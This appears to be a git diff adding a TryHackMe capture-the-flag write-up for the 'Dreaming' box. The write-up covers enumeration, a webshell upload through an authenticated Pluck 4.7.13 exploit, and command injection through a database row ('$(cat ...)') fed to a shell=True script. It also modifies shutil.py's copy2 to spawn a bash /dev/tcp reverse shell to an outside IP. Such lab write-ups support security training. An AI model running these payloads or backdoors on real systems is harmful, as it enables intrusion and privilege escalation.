

adds Dreaming Writeup

Changed region(s): [[0.2763, 0.0, 0.7981, 1.0]]

diff --git a/Dreaming/Dreaming.md b/Dreaming/Dreaming.md
@@ -1,43 +1,336 @@
-## Nmap: 
+# Nmap: 
 ---
 ```bash
-nmap -T4 -n -A 10.67.147.204 -oN nmap
+nmap -T4 -A -p 22,80 10.112.137.152 -v -oN nmap
 ```
 
 ```bash
-Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-23 17:53 CET
-Nmap scan report for 10.67.147.204
-Host is up (0.11s latency).
-Not shown: 998 closed tcp ports (conn-refused)
 PORT   STATE SERVICE VERSION
 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
-| ssh-hostkey:
-|   3072 24:80:a6:35:46:63:e0:dd:cc:c8:f1:74:d9:83:c9:bc (RSA)
-|   256 bf:1f:73:25:2a:d8:e9:e3:e5:03:b8:7c:d5:68:5d:52 (ECDSA)
-|_  256 0a:a1:4f:b2:47:4f:76:e1:af:4e:55:b5:44:45:c9:b0 (ED25519)
+| ssh-hostkey: 
+|   3072 86:10:ce:74:d5:b2:cc:cd:cd:55:5d:f6:e4:cf:c2:d3 (RSA)
+|   256 cd:a7:8b:32:a1:22:d8:e2:0d:ec:ef:ac:c5:c6:63:2d (ECDSA)
+|_  256 a5:c3:97:87:28:d7:d2:9e:63:52:d4:df:39:2c:e0:53 (ED25519)
 80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
+| http-methods: 
+|_  Supported Methods: GET POST OPTIONS HEAD
 |_http-title: Apache2 Ubuntu Default Page: It works
 |_http-server-header: Apache/2.4.41 (Ubuntu)
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
-
-Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
-Nmap done: 1 IP address (1 host up) scanned in 18.26 seconds
 ```
-## Gobuster: 
+
+- lets open up the web server
+# Web Server: 
 ---
-- when i opened the web-page i saw the `Apache` default-page
-- I didn't see anything useful in the source-code of that default-page
-- so lets use `gobuster` so see if there are any files or directory's:
-```bash 
-gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/common.txt -u http://10.67.147.204 -o gobuster/first_enum
+
+![Dreaming_1](images/Dreaming_1.png)
+
+- we can see the default apache2 page
+- lets use `gobuster` to find hidden files and directory's: 
+
+```bash
+gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.112.137.152/ -o gobuster/first_enum
 ```
 
-```bash 
-/.hta                 (Status: 403) [Size: 278]
-/.htaccess            (Status: 403) [Size: 278]
-/.htpasswd            (Status: 403) [Size: 278]
-/app                  (Status: 301) [Size: 312] [--> http://10.67.147.204/app/]
-/index.html           (Status: 200) [Size: 10918]
-/server-status        (Status: 403) [Size: 278]
+```bash
+===============================================================
+Gobuster v3.8.2
+by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
+===============================================================
+[+] Url:                     http://10.112.137.152/
+[+] Method:                  GET
+[+] Threads:                 10
+[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt
+[+] Negative Status codes:   404
+[+] User Agent:              gobuster/3.8.2
+[+] Timeout:                 10s
+===============================================================
+Starting gobuster in directory enumeration mode
+===============================================================
+.php                 (Status: 403) [Size: 279]
+.html                (Status: 403) [Size: 279]
+.htm                 (Status: 403) [Size: 279]
+app                  (Status: 301) [Size: 314] [--> http://10.112.137.152/app/]
+.                    (Status: 200) [Size: 10918]
+.htaccess            (Status: 403) [Size: 279]
+.phtml               (Status: 403) [Size: 279]
+...
 ```
-- lets go to `/app` so see whats there 
+
+- in `/app` we can find a folder named `pluck-4.7.13` 
+- if we move into the folder we can see this: 
+
+![Dreaming_2](images/Dreaming_2.png)
+
+- we now know that the web servers uses `pluck 4.7.13` and we can search for any known exploit 
+- after searching I found this [exploit](https://www.exploit-db.com/exploits/49909), but this exploit only works if we are `authenticated` 
+- when we click on `admin` we can see a login form: 
+
+![Dreaming_3](images/Dreaming_3.png)
+
+- we only have to enter a password so I tested some basic ones and found out that `password` was the password
+
+![Dreaming_4](images/Dreaming_4.png)
+
+- now we can use our `exploit`: 
+```bash
+erik@Archie:~/Desktop/TryHackMe/Dreaming$ python exploit.py 10.112.137.152 80 password /app/pluck-4.7.13/
+
+Authentification was succesfull, uploading webshell
+
+Uploaded Webshell to: http://10.112.137.152:80/app/pluck-4.7.13//files/shell.phar
+```
+
+![Dreaming_5](images/Dreaming_5.png)
+
+# Lucien Flag:
+---
+- if we navigate to `/opt`, we can find two scripts: 
+```bash
+www-data@ip-10-112-137-152:/opt$ ls -la
+total 16
+drwxr-xr-x  2 root   root   4096 Aug 15  2023 .
+drwxr-xr-x 20 root   root   4096 Jul 18 20:29 ..
+-rwxrw-r--  1 death  death  1574 Aug 15  2023 getDreams.py
+-rwxr-xr-x  1 lucien lucien  483 Aug  7  2023 test.py
+```
+
+- if we open up `test.py`, we can find the password for `lucien`: 
+```python
+import requests
+
+#Todo add myself as a user
+url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
+password = "<Redacted>"
+
+data = {
+        "cont1":password,
+        "bogus":"",
+        "submit":"Log+in"
+        }
+
+req = requests.post(url,data=data)
+
+if "Password correct." in req.text:
+    print("Everything is in proper order. Status Code: " + str(req.status_code))
+else:
+    print("Something is wrong. Status Code: " + str(req.status_code))
+    print("Results:\n" + req.text)
+```
+
+- with this password we can log into `Lucien` and get the first flag in the home directory from Lucien: 
+```bash
+THM{<Redacted>}
+```
+
+# Death Flag: 
+---
+- `sudo -l` as Lucien:
+
+```bash
+Matching Defaults entries for lucien on ip-10-113-181-123:
+    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
+
+User lucien may run the following commands on ip-10-113-181-123:
+    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py
+```
+
+- I also found this in the history of `Lucien`: 
+```bash
+mysql -u lucien -p<Redacted>
+```
+
+- lets look at `home/death/getDreams.py`: 
+```bash
+-rwxrwx--x 1 death death 1539 Aug 25  2023 getDreams.py
+```
+
+- it seems like we cannot read this file, but we also saw a different version of the file in `/opt` 
+- lets navigate to `/opt` and look at this version of the file: 
+
+```python
+import mysql.connector
+import subprocess
+
+# MySQL credentials
+DB_USER = "death"
+DB_PASS = "#redacted"
+DB_NAME = "library"
+
+import mysql.connector
+import subprocess
+
+def getDreams():
+    try:
+        # Connect to the MySQL database
+        connection = mysql.connector.connect(
+            host="localhost",
+            user=DB_USER,
+            password=DB_PASS,
+            database=DB_NAME
+        )
+
+        # Create a cursor object to execute SQL queries
+        cursor = connection.cursor()
+
+        # Construct the MySQL query to fetch dreamer and dream columns from dreams table
+        query = "SELECT dreamer, dream FROM dreams;"
+
+        # Execute the query
+        cursor.execute(query)
+
+        # Fetch all the dreamer and dream information
+        dreams_info = cursor.fetchall()
+
+        if not dreams_info:
+            print("No dreams found in the database.")
+        else:
+            # Loop through the results and echo the information using subprocess
+            for dream_info in dreams_info:
+                dreamer, dream = dream_info
+                command = f"echo {dreamer} + {dream}"
+                shell = subprocess.check_output(command, text=True, shell=True)
+                print(shell)
+
+    except mysql.connector.Error as error:
+        # Handle any errors that might occur during the database connection or query execution
+        print(f"Error: {error}")
+
+    finally:
+        # Close the cursor and connection
+        cursor.close()
+        connection.close()
+
+# Call the function to echo the dreamer and dream information
+getDreams()
+```
+
+- you can see that the value of `DB_PASS` is redacted
+- we can also see that data is getting fetched from the `library` database, specific from the `dreams` table 
+- the data then gets executed in an `echo` statement: 
+
+```python
+command = f"echo {dreamer} + {dream}"
+shell = subprocess.check_output(command, text=True, shell=True)
+print(shell)
+```
+
+- so we could log into the database with `Lucien` and add one `evil` row, that for example reads the version of `getDreams.py` in `/home/death`
+- so that we get the password from `death`
+
+```sql
+mysql -u lucien -p
+use library;
+INSERT INTO dreams (dreamer, dream) VALUES ("$(cat /home/death/getDreams.py)", "");
+```
+
+- lets run the script: 
+
+```bash
+lucien@ip-10-113-181-123:/opt$ sudo -u death /usr/bin/python3 /home/death/getDreams.py
+Alice + Flying in the sky
+
+Bob + Exploring ancient ruins
+
+Carol + Becoming a successful entrepreneur
+
+Dave + Becoming a professional musician
+
+death + test
+
+import mysql.connector import subprocess # MySQL credentials DB_USER = "death" DB_PASS = "<Redacted>" DB_NAME = "library" def getDreams(): try: # Connect to the MySQL database connection = mysql.connector.connect( host="localhost", user=DB_USER, password=DB_PASS, database=DB_NAME ) # Create a cursor object to execute SQL queries cursor = connection.cursor() # Construct the MySQL query to fetch dreamer and dream columns from dreams table query = "SELECT dreamer, dream FROM dreams;" # Execute the query cursor.execute(query) # Fetch all the dreamer and dream information dreams_info = cursor.fetchall() if not dreams_info: print("No dreams found in the database.") else: # Loop through the results and echo the information using subprocess for dream_info in dreams_info: dreamer, dream = dream_info command = f"echo {dreamer} + {dream}" shell = subprocess.check_output(command, text=True, shell=True) print(shell) except mysql.connector.Error as error: # Handle any errors that might occur during the database connection or query execution print(f"Error: {error}") finally: # Close the cursor and connection cursor.close() connection.close() # Call the function to echo the dreamer and dream information getDreams() +
+```
+
+- we can now log into `death` and read the `flag`: 
+```bash
+THM{<Redacted>}
+```
+
+# Morpheus Flag: 
+---
+- in the home directory of `Morpheus` we can find a file called `restore.py`: 
+
+```python
+from shutil import copy2 as backup
+
+src_file = "/home/morpheus/kingdom"
+dst_file = "/kingdom_backup/kingdom"
+
+backup(src_file, dst_file)
+print("The kingdom backup has been done!")
+```
+
+- lets search for `shutil`, to see if we can modify it: 
+
+```bash
+-rw-rw-r-- 1 root death 51474 Mar 18  2025 /usr/lib/python3.8/shutil.py
+```
+
+- now we know that we can modify the file, but we have to figure out how to execute `restore.py`, because this are the permissions: 
+
+```bash
+-rw-rw-r-- 1 morpheus morpheus 180 Aug  7  2023 /home/morpheus/restore.py
+```
+
+- so I transferred the program: `pspy64` from my local machine to the target machine and executed it: 
+
+```bash
+2026/07/19 09:41:24 CMD: UID=0     PID=10     | 
+2026/07/19 09:41:24 CMD: UID=0     PID=8      | 
+2026/07/19 09:41:24 CMD: UID=0     PID=6      | 
+2026/07/19 09:41:24 CMD: UID=0     PID=5      | 
+2026/07/19 09:41:24 CMD: UID=0     PID=4      | 
+2026/07/19 09:41:24 CMD: UID=0     PID=3      | 
+2026/07/19 09:41:24 CMD: UID=0     PID=2      | 
+2026/07/19 09:41:24 CMD: UID=0     PID=1      | /sbin/init splash noprompt noshell automatic-ubiquity vt.handoff=7 
+2026/07/19 09:42:01 CMD: UID=0     PID=2113   | /usr/sbin/CRON -f 
+2026/07/19 09:42:01 CMD: UID=1002  PID=2114   | /usr/sbin/CRON -f 
+2026/07/19 09:42:01 CMD: UID=1002  PID=2115   | /bin/sh -c /usr/bin/python3.8 /home/morpheus/restore.py 
+2026/07/19 09:42:01 CMD: UID=1002  PID=2116   | 
+2026/07/19 09:42:01 CMD: UID=1002  PID=2117   | sh -c /bin/bash 
+
+```
+
+- as we can see `restore.py` gets probably executed by a cronjob 
+- lets navigate `/usr/lib/python3.8/` and try to change the `copy2` method: 
+
+```python
+def copy2(src, dst, *, follow_symlinks=True):
+    """Copy data and metadata. Return the file's destination.
+
+    Metadata is copied with copystat(). Please see the copystat function
+    for more information.
+
+    The destination may be a directory.
+
+    If follow_symlinks is false, symlinks won't be followed. This
+    resembles GNU's "cp -P src dst".
+    Test
+    """
+    os.system("bash -c '/bin/bash -i >& /dev/tcp/192.168.131.165/1234 0>&1'")
+
+    if os.path.isdir(dst):
+        dst = os.path.join(dst, os.path.basename(src))
+    copyfile(src, dst, follow_symlinks=follow_symlinks)
+    copystat(src, dst, follow_symlinks=follow_symlinks)
+    return dst
+```
+
+- I added this line: 
+```python
+os.system("bash -c '/bin/bash -i >& /dev/tcp/192.168.131.165/1234 0>&1'")
+```
+
+- I saved the changes and started a listener with netcat on my local machine: 
+```bash
+nc -lnvp 1234
+```
+
+- then I waited for like 1 minute and got a reverse shell
+
+![Dreaming_6](images/Dreaming_6.png)
+
+- now we can read the last `flag`, located in `Morpheus` home directory: 
+```bash
+THM{<Redacted>}
+```
